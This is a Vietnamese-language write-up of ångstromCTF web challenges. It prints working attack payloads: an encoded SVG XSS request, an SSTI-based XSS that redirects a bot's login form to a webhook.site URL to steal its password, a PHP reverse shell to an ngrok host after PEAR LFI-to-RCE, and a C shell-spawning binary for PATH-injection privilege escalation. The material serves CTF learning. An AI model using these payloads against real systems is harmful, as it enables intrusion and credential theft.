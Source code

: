 ## [10] catch me if you can

view source code sẽ tìm ra flag 

## [20] Celeste Speedrunning Association
Score cao nhất là 0, thử đưa một số rất lớn vào sẽ khiến nó tràn số về số âm (có vẻ code bằng JAVA)
```
start=168261534697465165489498497498
```

```
you win the flag: actf{wait_until_farewell_speedrun}
```

## [40] shortcircuit
Hàm chunk sẽ split flag ra thành mảng 4 phần tử, mỗi phần tử 30 character long, sau đó dùng swap hoán đổi vị trí 4 phần tử này, gọi swap 2 lần trên mảng trên thì mảng sẽ về vị trí ban đầu, join lại ta sẽ có flag

```
swap(swap(chunk("7e08250c4aaa9ed206fd7c9e398e2}actf{cl1ent_s1de_sucks_544e67ef12024523398ee02fe7517fffa92516317199e454f4d2bdb04d9e419ccc7", 30))).join("")
```

```
actf{cl1ent_s1de_sucks_544e67e6317199e454f4d2bdb04d9e419ccc7f12024523398ee02fe7517fffa92517e08250c4aaa9ed206fd7c9e398e2}
```

## [40] directory
Flag nằm ở một trong số cái file đó, bruteforce đến file 3054 sẽ thấy flag

https://directory.web.actf.co/3054.html
```
actf{y0u_f0und_me_b51d0cde76739fa3}
```

## [40] Celeste Tunneling Association
Theo code ta chỉ cần đưa giá trị `flag.local` vào header Host là sẽ có flag

```
actf{reaching_the_core__chapter_8}
```

## [80] hallmark
Goal là XSS để lấy flag từ cookie của con bot, nhưng cách thông thường thì ta sẽ không thể lấy được content type `image/svg+xml` nhằm đưa một file svg chứa javascript vào

Tuy nhiên tại route PUT, ta có thể update card, với logic xử lý bên dưới ta có thể update để card trả về `image/svg+xml` bằng lỗi type confusion
```
cards[id].type = type == "image/svg+xml" ? type : "text/plain";
    cards[id].content = type === "image/svg+xml" ? IMAGES[svg || "heart"] : content;
```
Request:
```http 
PUT /card HTTP/1.1
Host: hallmark.web.actf.co
Content-Length: 1202
Cache-Control: max-age=0
Sec-Ch-Ua: "Not:A-Brand";v="99", "Chromium";v="112"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://hallmark.web.actf.co
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.50 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://hallmark.web.actf.co/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

svg=text&content=%3c%3f%78%6d%6c%20%76%65%72%73%69%6f%6e%3d%22%31%2e%30%22%20%73%74%61%6e%64%61%6c%6f%6e%65%3d%22%6e%6f%22%3f%3e%0a%3c%21%44%4f%43%54%59%50%45%20%73%76%67%20%50%55%42%4c%49%43%20%22%2d%2f%2f%57%33%43%2f%2f%44%54%44%20%53%56%47%20%31%2e%31%2f%2f%45%4e%22%20%22%68%74%74%70%3a%2f%2f%77%77%77%2e%77%33%2e%6f%72%67%2f%47%72%61%70%68%69%63%73%2f%53%56%47%2f%31%2e%31%2f%44%54%44%2f%73%76%67%31%31%2e%64%74%64%22%3e%0a%0a%3c%73%76%67%20%76%65%72%73%69%6f%6e%3d%22%31%2e%31%22%20%62%61%73%65%50%72%6f%66%69%6c%65%3d%22%66%75%6c%6c%22%20%78%6d%6c%6e%73%3d%22%68%74%74%70%3a%2f%2f%77%77%77%2e%77%33%2e%6f%72%67%2f%32%30%30%30%2f%73%76%67%22%3e%0a%20%20%3c%70%6f%6c%79%67%6f%6e%20%69%64%3d%22%74%72%69%61%6e%67%6c%65%22%20%70%6f%69%6e%74%73%3d%22%30%2c%30%20%30%2c%35%30%20%35%30%2c%30%22%20%66%69%6c%6c%3d%22%23%30%30%39%39%30%30%22%20%73%74%72%6f%6b%65%3d%22%23%30%30%34%34%30%30%22%2f%3e%0a%20%20%3c%73%63%72%69%70%74%20%74%79%70%65%3d%22%74%65%78%74%2f%6a%61%76%61%73%63%72%69%70%74%22%3e%0a%20%20%20%20%61%6c%65%72%74%28%22%58%53%53%20%62%79%20%42%48%41%52%41%54%22%29%3b%0a%20%20%3c%2f%73%63%72%69%70%74%3e%0a%3c%2f%73%76%67%3e&id=2c05d443-a964-44b6-8d9f-6b91bbfdb41b&type[]=image/svg%2bxml
```
Ta sẽ craft được một link thực thi được JS, gửi link này đến bot và lấy flag
https://hallmark.web.actf.co/card?id=2c05d443-a964-44b6-8d9f-6b91bbfdb41b

## [110] brokenlogin
Ứng dụng chạy flask, nhìn vào đoạn sau ta có thể thấy lỗi SSTI
```
render_template_string(indexPage % custom_message, fails=fails)
```
`custom_message` là data lấy từ `request.args["message"]`, được đưa trực tiếp vào `render_template_string`, nhưng vấn đề flag không nằm ở đây là flag nằm ở password của con bot, nên có vẻ đây vẫn là challenge client side

Mặc định thì template engine sẽ escape html của tất cả output, ta không thể chèn tag html gì, nhưng vì ta có thể dùng template markup, jinja (flask mặc định sài jinja) có một keyword là safe để đánh dấu là output này safe và không cần escape, ta có thể dùng keyword này để chèn HTML vào và từ đó lead tới XSS

Nhưng để ý nếu payload dài quá 25 ký tự nó sẽ không nối input vào `render_template_string` nữa nên ta sẽ dùng 1 trick nhỏ

`{{request.args.a|safe}}`

```
https://brokenlogin.web.actf.co/?message={{request.args.a|safe}}&a=%3Cscript%3Ealert(%27a%27)%3C/script%3E
```
Ta sẽ lấy input từ một parameter khác là `a` thì ta sẽ bypass qua được length restriction

Tiếp theo ta sẽ dùng JS để thay đổi `action` của form để khi con bot submit thì nó sẽ gửi đến url của ta 
```
https://brokenlogin.web.actf.co/?message={{request.args.a|safe}}&a=%3Cscript%3Edocument.body.onload%20=%20()%20=%3E%20document.getElementsByTagName(%27form%27)[0].action%20=%20%22https://webhook.site/68a40976-d351-4dde-a022-b23547e4cc1c%22%3C/script%3E
```
webhook:
```
username=admin&password=actf%7Badm1n_st1ll_c4nt_l0g1n_11dbb6af58965de9%7D
```

## [180] filestore
Cái upload file thật ra để đánh lạc hướng đó ae, bài này gồm 2 giai đoạn, giai đoạn from LFI to RCE và leo quyền để đọc flag.

Về LFI to RCE, đọc source ta sẽ thấy nếu có param `f` thì nó sẽ `include "./uploads/" . $_GET["f"];` => Path traversal, nhưng vấn đề là include cái gì đây, đọc file thì ok nhưng mà cũng không thể đọc flag, cái flag đã bị set permission để chỉ cho admin đọc, mình là user `ctf` không đọc được. Ta sẽ đến với PEAR, PEAR (PHP Extension and Application Repository) là một framework của PHP, liên tưởng nó giống như NPM bên NodeJS, nó hỗ trợ coder tái sử dụng các class có sẵn của PHP (xử lý cache, DB, ...) để tiết kiệm thời gian khi dev. Bản thân nó là một CLI program, nhưng nếu PHP config set `register_argc_argv` thì pear sẽ có thể nhận các REQUEST paramater thay cho CLI argument, và PEAR thì gần như luôn tích hợp sẵn trong PHP

http://man.he.net/man1/pecl

Như ta thấy với option `config-create`, ta có thể tạo ra một config file, với việc có thể truyền tham số cho program thông qua các parameter, ta có thể write được một con Shell lên server và từ đó RCE
```
config-create  Create a Default configuration file
```
Với điều kiện ta tìm được 1 thư mục mà ta có quyền write, cùng với đó là config `register_argc_argv` được set là true. Với PHP docker image thì config `register_argc_argv` luôn được set, và theo như file docker thì permission của folder `www` bị đổi, ta không có quyền write vào nó, ta sẽ dùng thư mục `tmp`, write shell vào đây rồi dùng path traversal include file PHP đó 
![](https://i.imgur.com/pkIRLQX.png)

![](https://i.imgur.com/KoaL5Qo.png)

Giờ dùng PHP để lấy reverse shell
```http
GET /?f=../../../../tmp/shin24.php&c=php+-r+'$sock=fsockopen("0.tcp.ap.ngrok.io",10968);$proc=proc_open("/bin/sh+-i",+array(0=>$sock,+1=>$sock,+2=>$sock),$pipes);' HTTP/1.1
Host: filestore.web.actf.co
Cache-Control: max-age=0
Sec-Ch-Ua: "Not:A-Brand";v="99", "Chromium";v="112"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.50 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close


```

Giờ ta cat flag thôi nhở

![](https://i.imgur.com/HAgt4Bh.png)

Làm gì dễ thế =))), đây là state 2, ta sẽ phải priv esc để đọc được flag, check owner thấy flag.txt là của admin, vậy ta phải nâng quyền mình lên admin, trong các file mà ta được đưa có 2 file SUID binary, lúc đầu thì mình cũng khá confuse, để đỡ dài dòng thì mình sẽ nói luôn là ta cần chú ý vào file `list_uploads`, đưa vào IDA và f5 lên ta sẽ thấy nó đang gọi đến binary `ls`
![](https://i.imgur.com/5L8QjUR.png)

Nhưng mà lưu ý là ở đây nó gọi đến ls, chứ không phải `/bin/ls`, vậy thì ta có thể dùng PATH injection, tạo một file tên `ls` ở một folder nào đó (`tmp` đi) rồi chạy lại SUID kia, file `ls` sẽ là một file để spawn shell. Nội dung file `ls` của mình (thật ra là của @Robbert viết, pao thủ thế giới)
```c 
#define _GNU_SOURCE
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <sched.h>
#include <sys/mman.h>
#include <signal.h>
#include <sys/syscall.h>
#include <sys/ioctl.h>
#include <linux/userfaultfd.h>
#include <sys/wait.h>
#include <poll.h>
#include <unistd.h>
#include <stdlib.h>
#define log_info(...) { \
    printf("[*] "); \
    printf(__VA_ARGS__); \
    putchar(10); \
};

int main(){
    setuid(999);
    if(getuid()!=999){
        puts("chiu");
        exit(-1);
    }
    execve("/bin/sh",NULL,NULL);
}
```

Ở đây `999` là EUID của user admin

Đưa file này lên server và compile (hoặc compile rồi đưa lên server, nhớ là zip lại để không bị mất execute permission) rồi chạy file `list_uploads` ta sẽ spawn được shell với quyền admin, giờ thì cat flag thôi
